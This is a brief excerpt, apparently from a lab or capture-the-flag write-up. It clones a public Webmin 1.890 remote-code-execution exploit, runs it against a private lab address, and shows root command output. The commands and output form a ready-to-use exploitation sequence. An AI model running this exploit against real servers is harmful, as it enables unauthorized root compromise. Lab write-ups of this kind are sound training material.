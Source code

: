 `cd /opt/tools`

`sudo git clone https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE`

`sudo chmod 700 webmin-1.890_exploit.py`

`sudo python3 webmin-1.890_exploit.py 10.10.79.206 10000 'id;whoami;groups'`
```
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ /
 ___/ // / / ___ |_/ // /|  /
/____//_/ /_/  |_/___/_/ |_/

--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
root
root
</p>
```

We've got root RCE!